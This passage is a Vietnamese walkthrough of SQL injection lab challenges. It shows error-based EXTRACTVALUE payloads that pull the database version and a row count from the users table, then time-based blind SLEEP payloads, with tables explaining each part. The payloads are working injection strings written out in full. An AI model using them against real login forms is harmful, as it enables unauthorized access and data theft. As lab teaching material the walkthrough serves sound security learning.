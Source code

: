 Kết quả cho ta thấy bảng ta đang được truy vấn đến là `sqli_lab`.

Tương tự ta extract version cũng như vậy username = `admin' AND EXTRACTVALUE(1,CONCAT(0x7e,@@version,0x7e)) AND 'x'='x` password là gì cũng được.

![image](https://hackmd.io/_uploads/HJP7EUcDlg.png)

Ta sẽ thử đếm số dòng trong bảng `' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM users), 0x7e)) AND 'x'='x`

![image](https://hackmd.io/_uploads/Bkcq9UqPex.png)

11 dòng.
Từ đây ta có thể tiến hành bruteforce password của admin hoặc tìm thêm user khác tùy vào script.

#### Bonus Level 10
  <summary>SQL Injection Level 10 (Bonus)</summary>
    
![image](https://hackmd.io/_uploads/S15j8Ujwel.png)

Đây là giao diện đăng nhập như cũ nhưng bây giờ mình sẽ thử lấy payload cũ để vào xem nó có trả kết quả như trước không.

![image](https://hackmd.io/_uploads/rJnRIIiPxg.png)

![image](https://hackmd.io/_uploads/r1HJPIsDxe.png)

Bây giờ nó sẽ chỉ trả về invalid cho tất cả trường hợp bị lỗi.
Ở chall này bây giờ mình muốn thử một cách đó là sử dụng time based attack sqli kĩ thuật này sẽ dựa vào thời gian trả về response để dump ra được nội dung của bảng.
Ở đây ta sẽ test thử một câu truy vấn time base đơn giản xem liệu nó có nhận hay không.
`admin' AND (SELECT SLEEP(5) FROM users LIMIT 1)='`

![image](https://hackmd.io/_uploads/ByGUn9jwel.png)

| Thành phần                             | Giải thích                                                                                                                   |
| -------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `'admin'`                              | Đóng chuỗi username hợp lệ.                                                                                                  |
| `AND`                                  | Điều kiện bổ sung — ta đang tiêm thêm logic vào truy vấn.                                                                    |
| `(SELECT SLEEP(5) FROM users LIMIT 1)` | Subquery: thực hiện lệnh `SLEEP(5)` — tức là **server sẽ "ngủ" 5 giây** trước khi trả kết quả.                               |
| `= ''`                                 | So sánh kết quả của `(SELECT SLEEP(5))` với chuỗi rỗng `''`. Dù vô lý về mặt logic, vẫn hợp lệ cú pháp SQL.                  |
| **Tác dụng chính**                     | Nếu server có lỗ hổng SQLi và đoạn chèn được thực thi, thì server sẽ **delay 5 giây**, cho thấy **SQLi time-based tồn tại**. |

![image](https://hackmd.io/_uploads/SJzs39oweg.png)

![image](https://hackmd.io/_uploads/Skqs3csDgx.png)

Thành công biết được rằng là bị dính time base sqli vì có thể thấy response mất 5 giây mới trả về kết quả.
Bây giờ ta sẽ thử đếm số bảng bằng phương pháp trên xem sao.
`admin' AND (SELECT SLEEP(5) WHERE (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())<3)='`
| Thành phần                                                                     | Mục đích                                                                                      |
| ------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------- |
| `admin'`                                                                       | Đóng chuỗi `'username'` trong câu lệnh SQL gốc (giả sử có cấu trúc `WHERE username = '...'`). |
| `AND`                                                                          | Bổ sung điều kiện logic cho truy vấn gốc.                                                     |
| `(SELECT SLEEP(5) WHERE (...))`                                                | Nếu điều kiện `(...)` đúng, thì `SLEEP(5)` sẽ thực thi (tức là **server delay 5 giây**)       |
| `SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()` | Đếm số bảng (`table`) trong schema (CSDL) hiện tại.                                           |
| `< 3`                                                                          | Kiểm tra xem số bảng hiện tại có ít hơn 3 hay không.                                          |